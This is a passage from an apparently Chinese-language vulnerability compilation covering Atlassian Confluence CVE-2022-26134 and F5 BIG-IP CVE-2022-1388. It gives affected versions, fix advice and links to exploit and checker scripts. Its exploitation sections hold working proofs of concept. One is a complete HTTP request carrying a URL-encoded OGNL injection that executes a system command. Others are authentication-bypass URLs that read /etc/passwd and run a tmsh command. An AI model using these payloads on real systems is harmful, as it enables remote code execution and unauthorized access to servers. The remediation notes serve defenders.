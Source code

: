  **利用方法：**  
poc

    
    
    GET //%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/ HTTP/1.1  
    Host: XX.XX.XX.XX  
    Upgrade-Insecure-Requests: 1  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/537.36  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9  
    Accept-Encoding: gzip, deflate  
    Accept-Language: zh-CN,zh;q=0.9  
    Cookie: JSESSIONID=3764D915B037D5A50D8025AA793E990A  
    Connection: close  
    

github利用脚本：  
https://github.com/Nwqda/CVE-2022-26134  
 **修复建议**

  1. 升级 Atlassian Confluence Server and Data Center 至安全版本。
  2. 临时缓解方案：下载官方发布的 xwork-1.0.3-atlassian-10.jar 替换 confluence/WEB-INF/lib/目录下原来的 xwork jar 文件，并重启 Confluence。https://packages.atlassian.com/maven-internal/opensymphony/xwork/1.0.3-atlassian-10/xwork-1.0.3-atlassian-10.jar

# 20、 **F5 BIG-IP iControl REST 身份验证绕过漏洞**

F5 BIG-IP 是美国 F5 公司的一款集成了网络流量管理、应用程序安全管理、负载均衡等功能的应用交付平台。 F5 BIG-IP
存在访问控制错误漏洞，攻击者可以通过未公开的请求利用该漏洞绕过 BIG-IP 中的 iControl REST 身份验证来控制受影响的系统。  
 **漏洞标签：** 利用链成熟、历史重大漏洞、影响范围广  
 **漏洞编号：** CVE-2022-1388  
 **漏洞类型：** 认证绕过  
 **受影响版本：**

  1. 16.1.0<=F5 BIG-IP<=16.1.2
  2. 15.1.0<=F5 BIG-IP<=15.1.5
  3. 14.1.0<=F5 BIG-IP<=14.1.4
  4. 13.1.0<=F5 BIG-IP<=13.1.4
  5. 12.1.0<=F5 BIG-IP<=12.1.6
  6. 11.6.1<=F5 BIG-IP<=11.6.5

 **利用方法：**  
poc

    
    
    文件读取 https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd  
    RCE https://<ip>/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin  
    

检测脚本  
https://github.com/jheeree/CVE-2022-1388-checker/blob/main/CVE-2022-1388.sh  
使用方法
